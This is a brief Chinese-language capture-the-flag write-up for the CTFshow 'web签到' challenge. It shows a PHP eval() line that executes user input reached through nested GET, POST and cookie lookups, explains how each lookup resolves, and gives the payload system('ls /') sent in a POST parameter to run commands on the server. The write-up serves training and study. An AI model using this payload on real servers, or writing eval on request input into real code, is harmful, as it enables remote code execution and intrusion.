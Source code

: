 # web签到
```php
eval($_REQUEST[$_GET[$_POST[$_COOKIE['CTFshow-QQ群:']]]][6][0][7][5][8][0][9][4][4]);
/*
    # $_REQUEST 能够获取get，post，cookie中的消息
    # $_COOKIE 获取cookie中的值，此题中获取CTFshow-QQ群的值
    # $_POST 获取cookie的名的值
    # $_GET 获取post对应的值
*/
```
构造如下请求（不知道request c[][]...[]=system('ls /');命令放在get处无法执行。。。，改到post处就可以）
![pic1](/ctfshow/image/image-1.png)
